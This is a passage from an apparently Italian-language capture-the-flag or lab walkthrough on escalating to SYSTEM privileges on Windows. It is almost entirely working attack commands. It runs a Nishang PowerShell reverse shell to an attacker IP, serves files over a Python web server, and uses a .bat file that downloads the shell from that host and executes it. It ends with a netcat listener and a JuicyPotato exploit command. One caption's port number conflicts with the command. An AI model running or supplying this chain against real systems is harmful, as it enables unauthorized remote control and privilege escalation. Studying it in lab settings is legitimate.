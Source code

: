 ```
Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Porta>
```

```
nano Invoke-PowerShellTcp.ps1
```

```
.\Invoke-PowerShellTcp -Reverse -IPAddress 10.11.116.149 -Port 1212
```
Ora portiamo la nostra shell inversa sul server utilizzando la stessa procedura:
```
sudo python3 -m http.server 8080
```
```
Invoke-WebRequest http://10.11.116.149:8080/Invoke-PowerShellTcp.ps1 -outfile Invoke-PowerShellTcp.ps1
```
Shell inversa da utilizzare come payload con JuicyPotato

Ora ci serve solo qualcosa di eseguibile, per eseguire la nostra reverse shell e ottenere una shell con privilegi di SISTEMA dalla nostra parte. Creiamo un file .bat e scarichiamolo sul server usando lo stesso metodo. 
Il file .bat dovrebbe avere il seguente codice, con l'IP sostituito dal nostro indirizzo IP:

```
nano rshell.bat
```
```
PowerShell "IEX(New-Object Net.WebClient).downloadString('http://10.11.116.149/Invoke-PowerShellTcp.ps1')"
```

Ora dobbiamo scaricarlo sul server, utilizzando Invoke-WebRequest:
```
Invoke-WebRequest http://10.11.116.149:8080/rshell.bat -outfile rshell.bat
```
File bat da eseguire con JuicyPotato

E ora non ci resta che aprire un listener netcat dalla nostra parte, su una porta diversa da quella che stiamo attualmente utilizzando in questa shell:
```
nc -lvnp 1212
```
Ascoltatore Netcat sulla porta 4445 per la shell SYSTEM

Il flusso di questo attacco è più o meno questo:

- L'exploit JuicyPotato esegue il file .bat come SYSTEM
- Il file .bat con privilegi di SISTEMA scarica la nostra shell inversa Nishang e la esegue
- Otteniamo una shell di SISTEMA dalla nostra parte utilizzando un listener netcat

Quindi proviamo il nostro attacco e vediamo se otteniamo una shell SYSTEM dalla nostra parte. Possiamo usare JuicyPotato in questo modo:

```
.\JuicyPotato.exe -t * -p rshell.bat -l 9002
```

